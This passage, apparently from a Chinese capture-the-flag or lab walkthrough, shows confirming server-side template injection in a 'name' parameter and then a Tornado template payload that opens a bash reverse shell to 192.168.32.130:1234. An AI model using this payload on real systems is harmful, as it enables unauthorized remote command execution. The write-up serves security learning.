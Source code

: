按照提示，输入参数：`name`

![image-20220911213243729](../../.gitbook/assets/image-20220911213243729.png)

我们可以看到它返回的内容与我在"name"参数中发送的内容相同。因此，我们可以尝试一个简单的 SSTI 有效载荷。

![image-20220911213320938](../../.gitbook/assets/image-20220911213320938.png)

如我们所见，命令被执行，我们得到了 `7*7` 的结果 49。这意味着我们可以注入一个可以为我们提供反向 shell 的有效负载。幸运的是，它使用了 **Tornado**，我们可以使用一个非常简单的有效载荷来获得反向 shell。

```
{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/192.168.32.130/1234 0>&1"')}}
```

> 当然，我们必须对它进行 URL 编码

![image-20220911213549708](../../.gitbook/assets/image-20220911213549708.png)

反弹成功

![image-20220911213607745](../../.gitbook/assets/image-20220911213607745.png)
